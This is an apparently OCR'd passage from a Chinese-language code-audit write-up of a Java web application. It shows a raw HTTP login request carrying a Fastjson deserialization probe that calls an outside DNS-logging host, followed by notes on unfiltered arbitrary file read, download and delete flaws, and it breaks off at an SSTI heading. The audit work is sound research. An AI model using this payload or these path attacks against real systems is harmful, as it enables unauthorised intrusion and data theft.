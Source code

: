     
    
    POST /api/action/login?version=1.0.0&apiNo=1&time=20230801100402 HTTP/1.1Host: 192.168.79.6:9090Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/115.0.0.0 Safari/537.36 Edg/115.0.1901.188Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6Cookie: JSESSIONID=9C353B3A2AD849AD9314B1DB12303213Content-Type: application/x-www-form-urlencodedConnection: closeContent-Length: 60p={"@type":"java.net.Inet4Address","val":"vxnt9i.dnslog.cn"}

![]()

![]()

![]()

任意⽂件读取  

接着上⾯的⽂件上传漏洞，直接打开⽂件管理代码  

![]()

180⾏，直接读取内容，跟进getRealFilePath()  

![]()

跟进getFilePath()  

![]()

获取path路径，没有做限制

跟进editFile  

![]()

依然对应的模板管理⻚⾯，抓包,因为它设置的路径是从⽹站/开始，不是系统/路径，所以读的内容有限制。  

![]()

任意⽂件下载  

和上⾯的读取逻辑是⼀样的  

![]()

![]()  

也没有做过滤，直接下载，给他制定固定名称和路径即可，同理删除漏洞也存在。

![]()

SSTI模版注⼊

在信息收集的过程中，有发现到使⽤了模板，介绍如下
